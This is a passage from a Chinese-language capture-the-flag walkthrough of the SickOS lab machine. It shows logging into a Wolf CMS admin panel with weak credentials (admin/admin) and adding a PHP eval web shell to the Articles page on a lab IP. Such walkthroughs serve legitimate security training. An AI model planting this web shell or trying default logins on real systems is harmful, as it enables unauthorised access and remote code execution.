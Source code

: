 关于获取后台密码可以使用爆破或者弱口令, 此处很幸运使用了弱口令`admin/admin`就能直接登录进后台, 登录进后台后可以看到一些编辑文章的接口

![image-20221204121605758](SickOS靶场/image-20221204121605758.png)



选取标题为Articles的页面进行编辑, 在其源码的基础上添加上一行webshell代码:`<?php @eval($POST[123]);?>`

![image-20221204122836780](SickOS靶场/image-20221204122836780.png)



根据上述页面的源码输出内容, 可查找出此页面的网页路径为: `http://192.168.47.157/wolfcms/?articles.html`
